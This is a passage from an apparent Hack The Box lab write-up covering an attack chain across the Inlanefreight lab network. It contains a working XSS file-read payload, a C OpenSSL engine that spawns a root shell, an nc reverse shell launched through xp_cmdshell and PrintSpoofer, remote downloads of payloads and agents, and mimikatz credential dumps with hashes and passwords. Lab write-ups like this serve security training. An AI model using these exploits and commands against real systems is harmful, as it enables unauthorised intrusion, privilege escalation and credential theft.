[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 Closing
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 Accepted
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 [200]: GET /script.js
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 Closing
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 Accepted
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 Closing
```

The cookie is added via Cookie-Editor:



Logging in with the stolen session grants access to the admin dashboard and the ticket queue, where the flag is visible:


**Flag:**

```
HTB{1nS3cuR3_c00k135}
```

---

## tracking.inlanefreight.local

The page's only functionality is to track an order by its ID:





Testing a basic XSS payload :

```javascript
<script>alert(1)</script>
```

confirms the input is executed as JavaScript rather than rendered as text (the "Tracking #" field becomes empty):


A payload using a synchronous XHR request to a `file://` URI is used to read `/etc/passwd`:

```javascript
<script>
  var x = new XMLHttpRequest();
  x.open("GET", "file:///etc/passwd", false);
  x.send();
  document.write(x.responseText);
</script>
```

The browser allows the page's script to read local files via the `file://` scheme, and the content is written into the DOM (Document Object Model), where it is then displayed under the "Tracking #" field:


The same payload is used to read the flag:


**Flag:**

```
HTB{49f0bad299687c62334182178bfd75d8}
```

---

## vpn.inlanefreight.local



A login form is presented. No bypass or successful brute force was achieved against this vhost.

---

## DMZ01 Lateral Movement from webdev to srvadm

> [!note] The lab environment was restarted several times over the course of this engagement, so IP addresses for the same host (e.g. `dmz01`, `DC01`, `MS01`) differ between sections below. Hostnames and the attack chain itself are unaffected.

The `webdev` user is a member of the `adm` group, which grants read access to files under `/var/log`:

```bash
webdev@dmz01:/home/webdev$ id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

New users are disclosed under `/home`:

```bash
webdev@dmz01:/home/webdev$ ls /home
lab_adm  pixel  srvadm  tom  webdev
```

```bash
webdev@dmz01:/home/webdev$ cat /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
...
lab_adm:x:1000:1000:lab_adm:/home/lab_adm:/bin/bash
pixel:x:1001:1001::/home/pixel:/bin/sh
tom:x:1002:1002::/home/tom:/bin/sh
srvadm:x:1003:1003::/home/srvadm:/bin/sh
webdev:x:1004:1004::/home/webdev:/bin/sh
```

The `adm` group membership is used to read the audit logs with `aureport`, which shows a password typed into a terminal session while switching to `srvadm`:

```bash
webdev@dmz01:/home/webdev$ aureport --tty | less
```

```
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

The password `ILFreightnixadm!` is used to SSH in directly as `srvadm`:

```bash
ssh srvadm@inlanefreight.local
```

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
srvadm@inlanefreight.local's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

  System load:                      0.07
  Usage of /:                       93.7% of 13.72GB
  Memory usage:                     64%
  IPv4 address for br-65c448355ed2: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.229.147
  IPv4 address for ens192:          172.16.8.120

Last login: Wed Jun  1 07:08:59 2022 from 127.0.0.1
$ id
uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
```

---

## Privilege Escalation on DMZ01

`srvadm` can run `openssl` as root with no password:

```bash
$ sudo -l
```

```
Matching Defaults entries for srvadm on dmz01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
    (ALL) NOPASSWD: /usr/bin/openssl
```

This is exploited with a malicious OpenSSL dynamic engine that calls `setuid(0)` and spawns a shell, following a known technique for `sudo openssl` abuse ([reference](https://medium.com/@shehacks_/from-sudo-openssl-to-root-privilege-escalation-with-dynamic-engine-abuse-c7e9e86ef41a)):

```c
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 1;
}
IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

```bash
gcc -fPIC -c exploit.c
gcc -shared -o exploit.so exploit.o -lcrypto
```

The compiled poc is transferred to the target and loaded through `sudo openssl`:

```bash
$ wget http://10.10.15.11:8081/exploit.so
```

```
--2026-11-10 20:38:40--  http://10.10.15.11:8081/exploit.so
Connecting to 10.10.15.11:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15712 (15K) [application/octet-stream]
Saving to: 'exploit.so'

exploit.so                  100%[===========================================>]  15.34K  --.-KB/s    in 0.04s

2026-11-10 20:38:40 (393 KB/s) - 'exploit.so' saved [15712/15712]
```

```bash
$ chmod +x exploit.so
$ sudo openssl req -engine ./exploit.so
root@dmz01:/home/srvadm# id
uid=0(root) gid=0(root) groups=0(root)
```

Root access is obtained on `dmz01`.

---

## Flag (DMZ01 Root)

```bash
root@dmz01:~# ls
flag.txt  snap
root@dmz01:~# cat flag.txt
```

**Flag:**

```
a34985b5976072c3c148abc751671302
```

---

## Pivoting to the Internal Network (ligolo-ng)

`dmz01` has several interfaces, but the one on the in-scope range is `ens192`:

```bash
root@dmz01:~# ifconfig
```

```
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.229.147  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:fe8a:405f  prefixlen 64  scopeid 0x0<global>

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.0.0  broadcast 172.16.255.255
        ether 00:50:56:8a:e5:8f  txqueuelen 1000  (Ethernet)
```

> [!note] `ifconfig` also listed a dozen `veth*` interfaces belonging to Docker containers on the host; these carry no routable traffic and are omitted here.

A sweep of the scoped subnet confirms three live hosts:

```bash
root@dmz01:~# for i in {1..254} ;do (ping -c 1 172.16.8.$i | grep "bytes from" &) ;done
```

```
64 bytes from 172.16.8.3: icmp_seq=1 ttl=128 time=1.83 ms
64 bytes from 172.16.8.20: icmp_seq=1 ttl=128 time=0.828 ms
64 bytes from 172.16.8.50: icmp_seq=1 ttl=128 time=0.749 ms
64 bytes from 172.16.8.120: icmp_seq=1 ttl=64 time=0.019 ms
```

The ligolo-ng proxy is started on Kali:

```bash
sudo ligolo-proxy -selfcert
```

The agent binary is served from Kali and downloaded/executed on `dmz01`:

```bash
root@dmz01:~# wget http://10.10.15.11:8081/agent
```

```
--2026-11-10 20:51:48--  http://10.10.15.11:8081/agent
Connecting to 10.10.15.11:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7164088 (6.8M) [application/octet-stream]
Saving to: 'agent'

agent                       100%[===========================================>]   6.83M  1.03MB/s    in 5.5s

2026-11-10 20:51:53 (1.24 MB/s) - 'agent' saved [7164088/7164088]
```

```bash
root@dmz01:~# chmod +x agent
root@dmz01:~# ./agent -connect 10.10.15.11:11601 -ignore-cert
```

```
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.15.11:11601"
```

The agent connects back to the proxy:

```
ligolo-ng » INFO[0342] Agent joined.                                 id=0050568a405f name=root@dmz01 remote="10.129.229.147:53920"
ligolo-ng » session
? Specify a session : 1 - root@dmz01 - 10.129.229.147:53920 - 0050568a405f
[Agent : root@dmz01] »
```

A route is added for the scoped subnet and the tunnel started:

```
[Agent : root@dmz01] » autoroute
? Select routes to add: 172.16.8.120/16
? Create a new interface or use an existing one? Create a new interface
? Enter interface name (leave empty for random name): tunnel
INFO[0383] Using custom interface name: tunnel
INFO[0383] Interface tunnel configured (will be created on tunnel start)
INFO[0383] Creating routes for tunnel...
? Start the tunnel? Yes
INFO[0387] Starting tunnel to root@dmz01 (0050568a405f)
```

```
[Agent : root@dmz01] » tunnel_list
┌───────────────────────────────────────────────────────────────────────────┐
│ Active sessions and tunnels                                               │
├───┬──────────────────────────────────────────────────┬───────────┬────────┤
│ # │ AGENT                                            │ INTERFACE │ STATUS │
├───┼──────────────────────────────────────────────────┼───────────┼────────┤
│ 1 │ root@dmz01 - 10.129.229.147:55100 - 0050568a405f │ tunnel    │ Online │
└───┴──────────────────────────────────────────────────┴───────────┴────────┘
```

The tunnel is verified with an SMB sweep:

```bash
netexec smb 172.16.8.0/23
```

```
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
SMB         172.16.8.50     445    ACADEMY-AEN-MS0  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-MS0) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
Running nxc against 512 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

### Internal Host Enumeration

`172.16.8.3` is confirmed as the domain controller:

```bash
nmap -sC -sV 172.16.8.3 --open
```

```
Nmap scan report for DC01 (172.16.8.3)
Host is up (0.092s latency).
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-13 20:57:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:bc:3a (VMware)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```


```bash
sudo nmap -sT -Pn 172.16.8.20 -sV -sC
```

```
Nmap scan report for 172.16.8.20
Host is up (0.036s latency).
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-robots.txt: 16 disallowed entries (15 shown)
| /*/ctl/ /admin/ /App_Browsers/ /App_Code/ /App_Data/
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/
|_/Documentation/ /HttpModules/ /Install/ /Providers/
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Home
111/tcp  open  rpcbind       2-4 (RPC #100000)
|   100003  2,3,4       2049/tcp   nfs
|   100005  1,2,3       2049/tcp   mountd
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL
| rdp-ntlm-info:
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: ACADEMY-AEN-DEV
|   DNS_Computer_Name: ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 0s, median: 59m59s
|_nbstat: NetBIOS name: ACADEMY-AEN-DEV, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:12:09 (VMware)
```


```bash
sudo nmap -sT -Pn 172.16.8.50 -sV -sC
```

```
Nmap scan report for 172.16.8.50
Host is up (0.043s latency).
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: ACADEMY-AEN-MS0
|   DNS_Computer_Name: ACADEMY-AEN-MS01.INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=ACADEMY-AEN-MS01.INLANEFREIGHT.LOCAL
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp open  http          Apache Tomcat (language: en)
|_http-title: Apache Tomcat/10.0.21
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 0s, median: 59m59s
|_nbstat: NetBIOS name: ACADEMY-AEN-MS0, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:66:0a (VMware)
```

`DC01` is added to the hosts file:

```bash
echo "172.16.8.3 DC01.INLANEFREIGHT.LOCAL DC01" | sudo tee -a /etc/hosts
```

---

## DEV01 (172.16.8.20)

Web enumeration discloses a DotNetNuke (DNN) installation:



The NFS export is mounted locally:

```bash
sudo mount -t nfs 172.16.8.20:/ ~/labs/aen/ -o nolock
```


```bash
┌──(kali㉿kali)-[~/labs/aen]
└─$ cd DEV01/DNN
┌──(kali㉿kali)-[~/labs/aen/DEV01/DNN]
└─$ cat web.config
```

```xml
<?xml version="1.0"?>
<configuration>
  <username>Administrator</username>
  <password>
        <value>D0tn31Nuk3R0ck$$@123</value>
  </password>
  <system.web>
    <compilation debug="true" targetFramework="4.5.2"/>
    <httpRuntime targetFramework="4.5.2"/>
  </system.web>
</configuration>
```

Logging in as `Administrator` grants access to the admin dashboard ([DNN enumeration reference](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/dotnetnuke-dnn.html)):



### Enabling xp_cmdshell

DNN's built-in SQL console is used to enable and invoke `xp_cmdshell`:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```



Running `xp_cmdshell 'whoami /priv';` reveals the SQL service account holds `SeImpersonatePrivilege`:



### SeImpersonatePrivilege Abuse

`.exe` is added to the allowed upload extensions under **Settings → Security → More → More Security Settings**:



`PrintSpoofer64.exe` and `nc64.exe` are uploaded through **Admin → File Management**, landing under `C:\DotNetNuke\Portals\0`:



`xp_cmdshell` is used to trigger PrintSpoofer with a reverse shell payload:

```sql
xp_cmdshell 'c:\dotnetnuke\portals\0\PrintSpoofer64.exe -c "c:\dotnetnuke\portals\0\nc64.exe 172.16.8.120 9001 -e cmd"';
```


A shell as `nt authority\system` is received:

```bash
$ nc -lvnp 9001
```

```
Listening on 0.0.0.0 9001
Connection received on 172.16.8.20 49841
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

---

## Flag (DEV01)

```
c:\Users\Administrator\Desktop>dir
 Directory of c:\Users\Administrator\Desktop
06/22/2022  08:05 PM                17 flag.txt

c:\Users\Administrator\Desktop>type flag.txt
type flag.txt
K33p_0n_sp00fing!
```

**Flag:**

```
K33p_0n_sp00fing!
```

---

## Credential Harvesting on DEV01

`mimikatz.exe` is uploaded to `C:\DotNetNuke\Portals\0` and run as `nt authority\system`:

```bash
c:\DotNetNuke\Portals\0>.\mimikatz.exe
```

Dumping the local Security Account Manager (SAM) NT hashes:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::sam
```

```
Domain : ACADEMY-AEN-DEV
SysKey : b3a720652a6fca7e31c1659e3d619944
Local SID : S-1-5-21-4188713075-3040141756-4070027797

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 0e20798f695ab0d04bc138b22344cea8

RID  : 000003e9 (1001)
User : mpalledorous
  Hash NTLM: 3bb874a52ce7b0d64ee2a82bbf3fe1cc
```

`lsadump::secrets` can be used to [dump LSA secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets) from the registries.

```
mimikatz # lsadump::secrets
```

```
Domain : ACADEMY-AEN-DEV
Domain FQDN : INLANEFREIGHT.LOCAL

Secret  : DefaultPassword
cur/text: Gr8hambino!

Secret  : _SC_MSSQL$SQLEXPRESS / service 'MSSQL$SQLEXPRESS' with username : NT Service\MSSQL$SQLEXPRESS
```

Local users on the host:

```bash
dir c:\users
```

```
 Directory of c:\users
06/01/2022  12:03 PM    <DIR>          Administrator
06/22/2022  10:28 PM    <DIR>          hporter
06/01/2022  11:54 AM    <DIR>          mpalledorous
12/14/2020  06:30 PM    <DIR>          Public
```

> [!note] `hporter` does not appear in the `lsadump::sam` output above, which only lists `Administrator` and `mpalledorous`; it is likely a domain account whose profile was cached locally rather than a local SAM entry.

---

## BloodHound Enumeration

The recovered `DefaultPassword` secret, `Gr8hambino!`, is valid for the domain user `hporter`:

```bash
nxc smb 172.16.8.3 -u hporter -p Gr8hambino! --shares
```

```
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
